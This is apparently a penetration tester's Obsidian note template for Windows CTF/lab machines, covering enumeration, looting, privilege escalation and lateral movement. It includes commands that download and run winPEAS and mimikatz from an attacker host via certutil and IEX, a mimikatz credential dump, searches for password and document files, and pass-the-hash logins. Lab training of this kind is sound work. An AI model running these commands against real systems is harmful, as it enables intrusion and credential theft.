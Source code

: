 #show #windows
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

First flag: ☑️
Second flag: ✅

# Enumeration
```bash
i="";sudo nmap --osscan-guess -T 5 -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -T 4 -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```
##### MSRPC (135, 593)
```bash
impacket-rpcdump $hip | grep '12345778-1234-abcd-ef00-0123456789ab\|3919286a-b10c-11d0-9ba8-00c04fd92ef5\|12345778-1234-abcd-ef00-0123456789ac\|1ff70682-0a51-30e8-076d-740be8cee98b\|338cd001-2244-31f1-aaaa-900038001003\|367abb81-9844-35f1-ad32-98f038001003\|4b324fc8-1670-01d3-1278-5a47bf6ee188\|4d9f4ab8-7d1c-11cf-861e-0020af6e7c57'
```

##### SMB (139, 445) #login
```bash
i=$hip; enum4linux -a $i ; enum4linux-ng -A $i ; crackmapexec smb $i 2>/dev/null
```
If used with proxy, use `proxychains -q`. Provide creds with `-u "<username>" -p "<passwd>"` 
Username can be `$(find . -name "9*.md" -print | cut -d "/" -f2 | cut -d "." -f1 | cut -d "_" -f2 | cut -d " " -f 1)`
Alternativ: [grab_smbversion.sh](file:////home/kali/Documents/activeInformationGathering/)
# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `type C:\Users\Administrator\Desktop\proof.txt` or local.txt for non-elevated
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```

##### Interesting files
```powershell
Get-ChildItem -Recurse -Path C:\Users\ -File -Exclude Desktop.lnk,Downloads.lnk,Bing.url | select Name,Directory; Get-ChildItem -Path C:\Users\ -Include *.kdbx,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; type (Get-PSReadlineOption).HistorySavePath
```

##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack, if not \\Users\\Public
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### WinPEAS
```powershell
cd \Users\Public ; certutil.exe -urlcache -split -f "http://192.168.45.189:8181/winPEASx64.exe" ; winPEASx64.exe
```
Alternative (not tested yet):
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]

##### Windows Exploit Suggester - Next Generation
On target, execute `systeminfo > systeminfo.txt` and transfer file. On kali, do
```bash
wes --muc-lookup systeminfo.txt
```

Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- `impacket-psexec '$user:$password@$hip'` oder `impacket-psexec -hashes 00000000000000000000000000000000:$ntlm_hash '$user@$hip'`
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)

# Loot passwords
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.IP:8000/mimikatz.exe" ; .\mimikatz.exe privilege::debug sekurlsa::logonpasswords lsadump::sam exit
```
